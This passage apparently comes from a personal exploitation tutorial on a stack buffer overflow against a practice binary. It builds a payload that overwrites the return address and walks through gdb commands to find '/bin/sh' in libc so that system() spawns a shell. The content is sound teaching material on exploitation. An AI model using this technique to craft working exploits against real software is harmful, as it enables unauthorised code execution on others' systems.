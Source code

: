 Let's take a look at our current payload:

```
b'A'*0x18 + b'BBBB' + b'\x50\x68\xe3\xf7' + 'garbage value1' + 'garbage value2'
```

`b'A'*0x18` is just so we can fill the stack and overwrite the actual
important stuff, just like `b'BBBB'`. When `password_is_correct` ends its
execution, `b'\x50\x68\xe3\xf7'` get written to EIP, ESP points to
'garbage value1' and `impossible_shell` is called. In `impossible_shell`,
EBP is pushed to stack. Are you following? At this point we are in the
`impossible_shell` and the stack looks like this:

Higher Addresses (Bottom of the stack) |
---------------------------------------|
garbage value2 (argument) |
garbage value1 (return address) |
saved EBP (pushed `impossible_shell`) |
Lower Addresses (Top of the stack) |

As you can see, if we write the address of "/bin/sh" to 'garbage value2'
it will be used as an argument to `system`. To find the address of
"/bin/sh", we can use the command `info proc map` in `gdb` (in a break)
to get the location in memory where `libc` was loadded to:

```
(gdb) info proc map
process 6820
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/felipe/uff/inmetro/hacking_log/rop/rip/rip
	 0x8049000  0x804a000     0x1000        0x0 /home/felipe/uff/inmetro/hacking_log/rop/rip/rip
	 0x804a000  0x804b000     0x1000     0x1000 /home/felipe/uff/inmetro/hacking_log/rop/rip/rip
	0xf7df8000 0xf7df9000     0x1000        0x0 
	0xf7df9000 0xf7fa9000   0x1b0000        0x0 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fa9000 0xf7fab000     0x2000   0x1af000 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fab000 0xf7fac000     0x1000   0x1b1000 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fac000 0xf7faf000     0x3000        0x0 
	0xf7fd3000 0xf7fd4000     0x1000        0x0 
	0xf7fd4000 0xf7fd7000     0x3000        0x0 [vvar]
	0xf7fd7000 0xf7fd9000     0x2000        0x0 [vdso]
	0xf7fd9000 0xf7ffc000    0x23000        0x0 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffc000 0xf7ffd000     0x1000    0x22000 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffd000 0xf7ffe000     0x1000    0x23000 /lib/i386-linux-gnu/ld-2.23.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

```

We can now use the command `find` to search for the string between
the first and last addresses:

```
(gdb) find 0xf7df8000, 0xf7fac000, "/bin/sh"
0xf7f54a0b
1 pattern found.
```

